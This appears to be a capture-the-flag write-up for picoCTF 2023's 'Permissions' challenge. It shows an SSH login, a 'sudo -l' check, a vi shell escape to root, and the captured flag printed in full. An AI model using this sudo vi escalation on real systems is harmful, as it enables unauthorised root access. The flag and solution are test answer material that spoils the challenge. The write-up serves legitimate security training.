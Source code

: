 # Permissions

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: Geoffrey Njogu

Description

Can you read files in the root file? The system admin has provisioned an account for you on the main server: `ssh -p 53645 picoplayer@saturn.picoctf.net` Password: `Sd9KYTm5kr` Can you login and read the root file?

## Find the flag

**Let's SSH into the instance!**
```shell
┌[siunam♥earth]-(~/ctf/picoCTF-2023)-[2023.03.16|15:07:21(HKT)]
└> ssh -p 53645 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:53645 ([13.59.203.175]:53645)' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:53645' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
picoplayer@challenge:~$ whoami;hostname;id
picoplayer
challenge
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
```

Now, the challenge's description said:

> "Can you read files in the root file?"

**Armed with above information, we can list our user's sudo permisson:**
```shell
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

As you can see, **we can run `/usr/bin/vi` as root!**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo), we can escalate our privilege to root via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230316151145.png)

**Let's do that!**
```shell
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/bash' /dev/null

root@challenge:/home/picoplayer# whoami;hostname;id
root
challenge
uid=0(root) gid=0(root) groups=0(root)
```

Boom! I'm root!

**Let's `cat` the flag!**
```shell
root@challenge:/home/picoplayer# ls -lah /root
total 16K
drwx------ 1 root root   22 Mar 16 07:12 .
drwxr-xr-x 1 root root   63 Mar 16 07:06 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  664 Mar 16 07:12 .viminfo
root@challenge:/home/picoplayer# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```

- **Flag: `picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}`**

## Conclusion

What we've learned:

1. Vertical Privilege Escalation Via `vi` SUID Binary